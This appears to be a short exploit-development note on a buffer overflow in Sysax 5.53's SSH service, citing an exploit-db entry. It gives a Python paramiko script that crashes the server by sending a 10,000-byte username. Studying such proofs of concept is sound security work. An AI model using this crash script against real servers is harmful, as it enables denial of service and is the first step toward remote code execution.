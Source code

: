 # Sysax 5.53

Downloaded from: https://www.exploit-db.com/exploits/18535
Vulnerable function: Settings -> Enable SSH port

## Initial Crash
```py
import paramiko,os,sys

TARGET_IP = "127.0.0.1"
TARGET_PORT = 22
target = (TARGET_IP, TARGET_PORT) 

CRASH_LEN = 10000  # change me

payload = b"A" * CRASH_LEN

transport = paramiko.Transport(target)	
transport.connect(username = payload, password = "test")	
transport.close()
```
